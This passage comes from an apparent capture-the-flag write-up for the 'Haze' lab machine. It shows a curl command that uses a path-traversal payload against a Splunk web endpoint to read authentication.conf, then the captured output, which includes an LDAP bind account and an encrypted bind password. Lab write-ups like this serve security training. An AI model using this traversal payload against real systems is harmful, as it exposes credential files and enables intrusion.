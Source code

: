 ![alt text](../assets/images/haze9.png)

but i saw there we need something more and more. so we have to extract something more

Lets try to extract some usernames.

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
```